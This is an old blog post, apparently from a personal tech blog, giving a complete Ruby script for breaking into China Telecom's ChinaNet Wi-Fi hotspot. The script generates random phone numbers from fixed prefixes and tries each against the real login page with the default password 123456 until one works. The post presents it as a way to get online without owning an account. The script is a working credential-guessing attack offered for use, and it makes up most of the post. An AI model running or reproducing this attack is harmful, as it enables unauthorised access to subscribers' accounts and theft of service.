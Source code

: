 ```yaml
---
layout: post
title: 'Login ChinaNet hotspot without number'
date: 2012-04-08 19:44
comments: true
categories: tech
---
```


hi,guys.maybe there ChinaNet hotspot surround u.but u dont have a proper number and password to login.
so i write a script via ruby which could enumerate phone numbers.
absolutely password is 123456.damn.

## Ok,Here We Go

Steps
------------------
1. install Ruby & Rubygem
2. install mechanize via rubygem
3. run the script

btw,i have to say,u could edit the phone number as u want.And before run the script,u must assure that uve connected to wireless hotspot ChinaNet(means that uve got a proper ip addr).


Script
-------------------
``` ruby
require 'rubygems'
require 'mechanize'
require 'logger'

puts "1.Start with 180640"
puts "2.Start with 189909"
puts "3.Start with 153497"
input = gets.chomp

if input == "1"
	gennum = lambda {return "180640" + Random.new.rand(11111...99999).to_s }	
elsif input == "2"
	gennum = lambda {return "189909" + Random.new.rand(11111...99999).to_s }	
elsif input == "3"
	gennum = lambda {return "153497" + Random.new.rand(11111...99999).to_s }		
end
	
puts "Starting"
MATH_CLASSES_URL = "http://wlan.ct10000.com/login.jsp"
agent = Mechanize.new
agent.log = Logger.new "mech.log"
agent.user_agent = "Mozilla/5.0 (X11; Linux i686) AppleWebKit/535.7 (KHTML, like Gecko) Chrome/16.0.912.77 Safari/535.7"
#agent.keep_alive = true

puts "Getting page"
page = agent.get MATH_CLASSES_URL
puts "Configuring FORM"
form = page.form("theForm")

800.times do |time|
	number = gennum.call
	puts "##########Current Number:#{number}-----------#{time}"
	form.field_with(:name => "loginpage").value = "main_cn"
	form.field_with(:name => "useragent").value = "pc"
	form.field_with(:name => "loginvalue").value = "1"
	form.field_with(:name => "username").value = number
	form.field_with(:name => "passwd").value = "123456"
	ret = agent.submit form
	unless ret.title.include?("Error Information")
		puts "OK,Logon,Here U Go-------------------------------#{number}"		
		break;
	end	
	p ret
end
#cookie = Mechanize::Cookie.new("JSESSIONID", "P5nBLMHp9RJvWgSNFKc0B1NJF92541yC94Qlcj6hLSdn3KTnLrbP!1108952281")
#cookie.domain = ".ct10000.com"
#cookie.path = "/"
#agent.cookie_jar.add!(cookie)

```

